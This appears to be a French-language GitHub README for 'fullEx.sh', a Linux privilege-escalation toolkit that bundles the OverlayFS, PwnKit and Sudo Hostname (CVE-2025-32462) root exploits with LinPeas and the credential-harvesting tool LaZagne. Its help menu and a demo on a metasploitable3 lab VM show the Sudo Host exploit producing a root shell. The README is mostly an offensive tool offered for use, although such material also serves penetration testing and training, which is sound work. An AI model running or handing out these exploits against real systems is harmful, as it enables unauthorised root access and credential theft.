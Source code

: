 # <img width="1335" height="890" alt="image" src="https://github.com/user-attachments/assets/c947aebb-593b-4027-bc50-ac87663ff387" />


Les exploits root & outils dispo :

💀 Sudo Host

💀 OverlayFS

💀 PwnKit

🤖 LinPeas

👾 LaZagne

# ⚙️ Demo

```
vagrant@metasploitable3-ub1404:~/fullEx$ ./fullEx.sh -help
                                                                                                    
 $$$$$$\            $$\ $$\ $$$$$$$$\           
$$  __$$\           $$ |$$ |$$  _____|          
$$ /  \__|$$\   $$\ $$ |$$ |$$ |      $$\   $$\ 
$$$$\     $$ |  $$ |$$ |$$ |$$$$$\    \$$\ $$  |
$$  _|    $$ |  $$ |$$ |$$ |$$  __|    \$$$$  / 
$$ |      $$ |  $$ |$$ |$$ |$$ |       $$  $$<  
$$ |      \$$$$$$  |$$ |$$ |$$$$$$$$\ $$  /\$$\ 
\__|       \______/ \__|\__|\________|\__/  \__|

               by M0rPH3U53
 
 
Usage: ./fullEx.sh COMMAND
 
Commands:
   -LinPeas       Execute LinPeas
   -LaZagne       Execute LaZagne
   -Overlays      Compilation + execution binaire - CVE-2015-1328
   -PwnKit64/32   PwnKit64/32 - CVE-2021-4034
   -SudoHost      Sudo Hostname - CVE-2025-32462   
   -check         Verifie si gcc est installer
   -perm          Applique les droit d'execution '/fullEx'
   -help          Affiche les commandes
 ```
# 💲 Exemple

```
vagrant@metasploitable3-ub1404:~/fullEx$ bash fullEx.sh -perm
vagrant@metasploitable3-ub1404:~/fullEx$ ./fullEx.sh -SudoHost
[+] Sudo Host Bypass Exploit - CVE-2025-32462
[+] Discovered by: Rich Mirch
[+] Exploit by: J3rich0123
[+] Target: Linux x86_64
[+] Starting pseudo-root shell on dev.
[+] Type 'exit' or 'quit' to leave.
[+] For a real shell, type: bash
[+] Or: vim → :!bash to break into a real TTY shell
root@dev# bash -i
root@metasploitable3-ub1404:~/fullEx# id
uid=0(root) gid=0(root) groups=0(root)
```
